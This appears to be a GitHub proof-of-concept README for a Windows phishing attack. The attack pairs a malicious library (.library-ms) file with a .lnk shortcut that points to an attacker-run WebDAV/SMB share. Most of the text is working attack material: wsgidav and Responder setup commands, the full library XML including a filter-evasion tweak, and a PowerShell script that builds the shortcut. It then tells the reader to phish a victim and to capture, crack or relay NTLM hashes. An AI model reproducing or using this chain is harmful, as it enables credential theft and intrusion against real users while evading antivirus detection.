 # lnk-with-Webdav-POC
Windows Defender and Avira AV Does not flag the Lnk as malicious.
Tested on
Windows 10 Pro
BuildNumber     : 19045
Version         : 10.0.19045

Windows 11
BuildNumber     : 22000
Version         : 10.0.22000

### Requirements ⚙️
* Python3

### Setup 🛠️
<b> On the kali linux attacker machine, on the terminal</b> <br />
```
pip3 install wsgidav
mkdir /home/kali/webdav

Running the wsgidav hosted on /home/kali/webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/ 
```
<b> On the kali linux attacker machine, on a new tab of the terminal. run responder to capture NTLM hash</b> <br />
```
responder -I eth0 -dwFP -v
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c1f59930-d518-4fa1-9cd2-4f42799c80d5)
Ensure that SMB server is on
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/1715fa7b-bf04-4c1a-97e1-7e967ddab24f)

### On windows attacker machine

## Creating the Window library file to connect to our webdav share. 
This file can be used as a virtual containers to carry our payloads to avoid suspicions. 
we can use Notepad or any text editor could also be used to create the file.

We can save the file HRFolder.
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c660329d-b3db-4fca-be8a-5f429461f8f4)

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations. Let's build the XML code by adding and explain the tags. We can refer to the Library Description Schema6 for further information. We'll begin by adding the XML and library file's format version.
The listing below contains the namespace7 for the library file. This is the namespace for the version of the library file format starting from Windows 7. The listing also contains the closing tag for the library description. All of the following tags we cover will be added inside the libraryDescription tags.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
</libraryDescription>
```
Next, we'll add two tags providing information about the library. The name tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. 
We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. 
We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". 
The version tag can be set to a numerical value of our choice, for example, 7.
```
<name>@windows.storage.dll,-34582</name>
<version>7</version>
```
Name and Version Tags of the Library

Next, we'll add the isLibraryPinned11 tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. 
The next tag we'll add is iconReference, which determines what icon is used to display the library file. We must specify the value in the same format as the name element. 
We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon.
```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1002</iconReference>
```


The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList, tag which contains a list of search connectors defined by searchConnectorDescription. 
Search connectors are used by library files to specify the connection settings to a remote location. 

We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. 
For this example we only specify one. If we used more than 1 folder, it will display contents from other folders as well making it look more legitimate.
Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation tag with the value set to true. 
This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.

**The most important tag is url,which we need to point to our previously-created WebDAV share over HTTP. It is contained within the simpleLocation tags, which we can use to specify the remote location in a more user-friendly way as the normal locationProvider element.**
```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<your webdav share url></url></simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```
The entire XML would look something like this
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>7</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.1.67</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
## Creating the Windows shortcut payload using powershell
Run this on powershell to create the shortcut on your desktop, change the $shortcutPath accordingly 
```
$targetPath = "\\192.168.1.67\test"
$shortcutPath = "C:\Users\JJ\Desktop\HRdocuments.lnk"

# Create a WScript.Shell object 
$shell = New-Object -ComObject WScript.Shell
 # Create a shortcut object 
$shortcut = $shell.CreateShortcut($shortcutPath)
 # Set the target path of the shortcut
 $shortcut.TargetPath = $targetPath
 # Save the shortcut 
$shortcut.Save()
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/455d1c59-c587-49b1-8085-87cbf52687ef)

### Next, we could move the .lnk inside the webdav share directory
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/eb2f568c-06d1-4caa-a248-06d89dbd132a)

# Send the Windows library file to the victim, for e.g phishing email.
Giving instructions for the user to click on the hr folder, and the windows shortcut.
The responder should be able to harvest the credentials hash successful. We can then either crack the hash for the user password or we can relay them to a tool like ntlmrelayx, or pass the hash directly for authentication as potential exploitations
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/154a6e66-51cb-4b7c-a0cc-233959918bcd)

## Using hashcat to crack the NTLM hash recovered
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/2c926b5a-bb79-45b6-820b-650dd96d8df7)
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/b9b70946-b037-49dc-a334-d86cf4dcd92a)
